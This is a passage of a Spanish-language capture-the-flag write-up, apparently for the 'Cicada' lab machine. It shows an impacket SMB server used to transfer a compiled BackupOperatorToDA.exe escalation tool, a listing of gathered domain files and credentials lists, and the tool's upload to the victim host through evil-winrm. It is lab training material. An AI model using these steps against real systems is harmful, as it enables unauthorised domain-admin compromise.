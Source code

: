 Y ya lo tenemos compilado.
![Write-up Image](images/Screenshot_4.png)

Ahora en mi máquina Parrot, voy a crear un servidor SMB para compartirme el archivo de mi máquina anfitriona a la virtual.
```console
$ sudo impacket-smbserver -smb2support smbFolder .
```

Ahora simplemente lo copiamos, y listo.
![Write-up Image](images/Screenshot_5.png)

Aquí tenemos el ejecutable.
```console
$ ls
BackupOperatorToDA.exe  combo.txt                    domain_computers.html  domain_policy.html  domain_users_by_group.html  users.txt
Backup_script.ps1       domain_computers_by_os.html  domain_groups.html     domain_trusts.html  domain_users.html
```

A través de la función `upload` de `evil-winrm` vamos a subir el ejecutable a la máquina víctima.

```console
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> upload BackupOperatorToDA.exe
                                        
Info: Uploading /home/pointedsec/Desktop/cicada/content/BackupOperatorToDA.exe to C:\Users\emily.oscars.CICADA\Desktop\BackupOperatorToDA.exe
                                        
Data: 24576 bytes of 24576 bytes copied
                                        
Info: Upload successful!
```
